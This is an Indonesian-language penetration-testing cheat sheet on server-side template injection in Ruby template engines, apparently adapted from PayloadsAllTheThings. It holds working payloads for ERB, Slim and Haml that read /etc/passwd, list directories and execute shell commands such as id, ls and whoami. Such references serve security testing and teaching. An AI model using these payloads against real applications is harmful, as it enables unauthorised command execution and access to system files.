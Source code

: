 # Server Side Template Injection - Ruby

> **Server-Side Template Injection (SSTI)** adalah kerentanan di mana penyerang dapat menyisipkan kode berbahaya ke dalam template di sisi server, sehingga server dapat mengeksekusi perintah arbitrer. Pada Ruby, SSTI bisa terjadi pada engine seperti ERB (Embedded Ruby), Haml, Liquid, Slim, dan lainnya jika input pengguna tidak disaring dengan benar.

## Ringkasan

- [Library Template Populer](#library-template-populer)
- [Payload Dasar](#payload-dasar)
- [Payload Spesifik Engine](#payload-spesifik-engine)
- [Referensi](#referensi)

## Library Template Populer

| Nama Template    | Format Payload | Bahasa Pemrograman |
| ---------------- | -------------- | ------------------ |
| ERB/Erubi/Erubis | `<%= ... %>`   | Ruby               |
| Haml             | `#{ ... }`     | Ruby               |
| Slim             | `#{ ... }`     | Ruby               |
| Liquid           | `{{ ... }}`    | Ruby               |
| Mustache         | `{{ ... }}`    | Ruby               |

## Payload Dasar

Coba payload berikut pada input yang dicurigai:

```erb
<%= 7 * 7 %>
#{ 7 * 7 }
{{ 7 * 7 }}
```

Jika output menjadi `49`, kemungkinan aplikasi rentan SSTI.

## Payload Spesifik Engine

### ERB / Erubi / Erubis

- **Injeksi Dasar:**
  ```erb
  <%= 7 * 7 %>
  ```
- **Baca file `/etc/passwd`:**
  ```erb
  <%= File.open('/etc/passwd').read %>
  ```
- **List file dan direktori:**
  ```erb
  <%= Dir.entries('/') %>
  ```
- **Eksekusi perintah:**
  ```erb
  <%= `id` %>
  <%= system('ls /') %>
  <%= IO.popen('ls /').readlines() %>
  <% require 'open3' %><% a,b,c,d=Open3.popen3('whoami') %><%= b.readline() %>
  ```

### Slim

- **Injeksi Dasar:**
  ```slim
  #{ 7 * 7 }
  ```
- **Eksekusi perintah:**
  ```slim
  #{ %x|id| }
  ```

### Haml

- **Injeksi Dasar:**
  ```haml
  #{ 7 * 7 }
  ```
- **Eksekusi perintah:**
  ```haml
  #{ %x|ls /| }
  ```

### Liquid / Mustache

- **Injeksi Dasar:**
  ```liquid
  {{ 7*7 }}
  ```

## Tips

- Selalu cek output aplikasi setelah mengirim payload.
- Gunakan variasi payload jika satu format tidak berhasil.
- Setelah engine teridentifikasi, cari dokumentasi exploitasi engine tersebut.
- Gunakan payload hanya di lingkungan legal (CTF/lab).

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
